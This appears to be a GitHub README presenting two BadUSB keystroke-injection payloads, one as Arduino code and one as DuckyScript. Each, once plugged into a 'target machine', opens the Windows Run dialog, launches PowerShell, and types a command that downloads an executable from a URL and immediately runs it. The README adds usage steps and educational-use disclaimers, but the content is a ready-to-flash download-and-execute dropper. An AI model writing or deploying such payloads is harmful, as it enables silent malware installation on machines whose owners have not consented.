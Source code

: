 Here’s a README for both the **Arduino Code** and the **DuckyScript** versions.

---

## **README: Script to Download and Execute a File Using PowerShell**

### **Overview**
This project contains two scripts (Arduino and DuckyScript) that use keyboard emulation to:
1. Open the Windows Run dialog.
2. Launch PowerShell.
3. Execute a command to download a file from the internet and run it.

These scripts are designed for educational purposes or automation tasks. Use responsibly.

---

### **1. Arduino Code**
#### **Description**
The Arduino script uses the `Keyboard` library to emulate keyboard input, automating the process of opening PowerShell, downloading a file, and executing it.

#### **Code**
```cpp
#include <Keyboard.h>

void setup() {
  Keyboard.begin();
  delay(1000);
  Keyboard.press(KEY_LEFT_GUI);
  Keyboard.press('r');
  delay(500);
  Keyboard.releaseAll();
  delay(500);
  Keyboard.print("powershell");
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  delay(1500);
  Keyboard.print("iwr -Uri \"https://example.com\" -OutFile \"C:\\Temp\\installer.exe\" ; Start-Process \"C:\\Temp\\installer.exe\"");
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  delay(500);
  Keyboard.end();
}

void loop() {

}
```

#### **Usage**
1. Flash the code onto an Arduino-compatible board that supports keyboard emulation (e.g., Arduino Micro, Leonardo, etc.).
2. Plug the device into the target machine.
3. The script will:
   - Open the Run dialog.
   - Launch PowerShell.
   - Download a file from `https://example.com` and save it to `C:\Temp\installer.exe`.
   - Execute the downloaded file.

#### **Dependencies**
- Arduino IDE with the `Keyboard` library included.
- Ensure the target system allows execution of PowerShell commands.

---

### **2. DuckyScript**
#### **Description**
The DuckyScript version is written for a USB Rubber Ducky device, which automates keystrokes in a similar manner.

#### **Script**
```plaintext
DELAY 1000
GUI r
DELAY 500
STRING powershell
ENTER
DELAY 1500
STRING iwr -Uri "https://example.com" -OutFile "C:\Temp\installer.exe" ; Start-Process "C:\Temp\installer.exe"
ENTER
DELAY 500
```

#### **Usage**
1. Copy the script into a file named `payload.txt`.
2. Flash the script onto a USB Rubber Ducky using the Duck Encoder.
3. Plug the device into the target machine.
4. The script will:
   - Open the Run dialog.
   - Launch PowerShell.
   - Download a file from `https://example.com` and save it to `C:\Temp\installer.exe`.
   - Execute the downloaded file.

#### **Dependencies**
- USB Rubber Ducky hardware.
- Duck Encoder to compile the script into an inject.bin file.

---

### **Important Notes**
1. **Legal and Ethical Usage**: These scripts are powerful tools for automation but can be misused. Use them only in environments where you have explicit permission.
2. **File URL**: Replace `https://example.com` with the actual URL of the file you want to download.
3. **Target Compatibility**: Ensure the target system has PowerShell enabled and allows script execution.
4. **Testing**: Always test scripts in a controlled environment before deploying.

---

### **Disclaimer**
This project is for **educational purposes only**. Unauthorized use of these scripts may violate laws or organizational policies. The author is not responsible for any misuse. Always obtain permission before using these scripts on any device.
